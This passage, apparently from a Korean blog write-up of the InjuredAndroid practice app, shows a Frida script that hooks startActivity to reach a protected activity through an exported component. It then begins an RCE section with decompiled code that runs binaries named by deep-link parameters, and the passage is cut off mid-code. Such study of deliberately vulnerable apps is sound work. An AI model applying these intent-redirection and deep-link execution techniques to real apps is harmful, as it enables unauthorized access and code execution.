 {: file='FlagTwelveProtectedActivity'}                                          
<br/>

이건 몰라서 롸업을 봤는데 PoC 앱을 하나 만들어주는 방식으로 했다. 하지만 PoC 코드를 보니 startActivity를 후킹하여 내가 의도하는 intent를 전달해주면 가능할 것 같아서 아래와 같이 스크립트를 작성하고 frida로 해봤는데 정상적으로 플레그를 얻을 수 있었다.  
참고로 `setClassName()`을 통해서 <u>다른 Application의 엑티비티를 call 할 수 있다.</u> 따라서 PoC 앱이 가능한 이유는 `ExportedProtectedIntent`에 해당하는 activity 컴포넌트가 `exported='true'`로 설정되어있기 때문이다.  
만약 무슨말인지 모르겠다면 [여기](https://boanit.github.io/pen/android_exported_true.html)를 읽어보자.  
```javascript
function hookStartActivity(){
    var Activity = Java.use("android.app.Activity")
    var intent = Java.use("android.content.Intent");
    Activity.startActivity.overload('android.content.Intent').implementation=function(a1){
        var instance = intent.$new();
        var instance2 = intent.$new();
        instance.setClassName('b3nac.injuredandroid','b3nac.injuredandroid.FlagTwelveProtectedActivity');
        instance.putExtra('totally_secure','https://asd.com');
        instance2.setClassName('b3nac.injuredandroid','b3nac.injuredandroid.ExportedProtectedIntent');
        instance2.putExtra('access_protected_component',instance);
        return this.startActivity(instance2);
    }
}
```
<br/>

# RCE
***
이번에도 딥링크를 이용한다.  
![deeplink](../../../assets/img/2023-01-22/deeplink.png){: w="800" h="400" }  
<br/>

RCEActivity에서 onCreate 부분을 보면 총 3개의 파라미터를 사용하는 것을 볼 수 있다. `queryParameter3`이 null이면 `binary`, `param` 파라미터를 통해서 특정 위치에 있는 바이너리 파일에 인자를 주고 실행하는 것을 알 수 있다.  
```java
//RCEActivity: 267

public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        setContentView(R.layout.activity_rce);
        j.j.a(this);
        C((Toolbar) findViewById(R.id.toolbar));
        G();
        ((FloatingActionButton) findViewById(R.id.fab)).setOnClickListener(new a());
        if (getIntent() != null) {
            Intent intent = getIntent();
            d.s.d.g.d(intent, "intent");
            if (intent.getData() != null) {
                H();
                Intent intent2 = getIntent();
                d.s.d.g.d(intent2, "intent");
                Uri data = intent2.getData();
                try {
                    d.s.d.g.c(data);
                    String queryParameter = data.getQueryParameter("binary");
                    String queryParameter2 = data.getQueryParameter("param");
                    String queryParameter3 = data.getQueryParameter("combined");
                    if (queryParameter3 != null) {
                        this.x.b(new b(queryParameter3));
                    } else {
                        Runtime runtime = Runtime.getRuntime();
                        StringBuilder sb = new StringBuilder();
```